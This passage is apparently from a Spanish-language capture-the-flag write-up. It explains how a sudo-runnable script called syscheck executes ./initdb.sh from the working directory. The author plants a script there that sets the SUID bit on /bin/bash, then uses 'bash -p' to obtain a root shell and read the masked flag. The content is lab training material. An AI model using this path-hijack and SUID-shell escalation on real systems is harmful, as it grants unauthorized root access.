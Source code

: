 Por lo tanto veamos que hace este script
```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```
Como podemos ver el script busca un script llamado `initdb.sh` en le directorio actual de tabajo y lo ejecuta como root. Por lo que hago es irme a tmp y crear el script initdb.sh
```bash
dvir@headless:~$ cd /tmp
dvir@headless:/tmp$ nano initdb.sh
dvir@headless:/tmp$ cat initdb.sh 
#!/bin/bash

chmod u+s /bin/bash

dvir@headless:/tmp$ chmod +x initdb.sh
```
Con el script creado lo que hare es que a la bash le dare permisos SUID, le damos persmisos de ejecucion y ejecutamos el script `syscheck` como sudo
```bash
dvir@headless:/tmp$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.02, 0.00
Database service is not running. Starting it...
dvir@headless:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 24  2023 /bin/bash
dvir@headless:/tmp$ bash -p
bash-5.2# whoami
root
bash-5.2# 
```
como vemos al ejecutar cambia los persmisos de la bash y luego al hacer `bash -p` nos damos una bash como root y ahora podemos leer la flag
```bash
bash-5.2# cat root.txt 
****************************b1400f
```
